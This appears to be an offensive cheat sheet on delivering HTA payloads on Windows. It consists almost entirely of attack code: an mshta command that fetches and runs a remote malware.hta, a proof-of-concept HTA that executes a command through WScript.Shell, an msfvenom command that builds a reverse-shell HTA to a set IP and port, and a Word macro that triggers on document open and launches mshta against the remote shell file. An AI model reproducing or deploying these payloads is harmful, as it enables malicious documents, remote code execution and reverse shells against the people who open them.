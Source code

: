 ### From mshta.exe

```
mshta.exe http://malicious_remoteserver/malware.hta
```
 
### Normal Poc.hta
```
<html>
<head>
  <script>
    var payload = 'calc.exe';
    new ActiveXObject('Wscript.Shell').Run(payload);
  </script>
</head>

<body>
  <h1>Poc </h1>
  <script>
    self.close();
  </script>
</body>
</html> 
```

### Generate msfvenom payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.134 LPORT=4444 -t hta-psh -o shell.hta
```

### HTA with Macro
```
Sub AutoOpen()
 ExecuteHTA
End Sub

Sub Document_Open()
 ExecuteHTA
End Sub

Sub ExecuteHTA()
 Dim url As String
 Dim command As String
 url = "http://192.168.2.134/shell.hta"
 command = "mshta.exe " & url
 Shell command, vbNormalFocus
End Sub
```
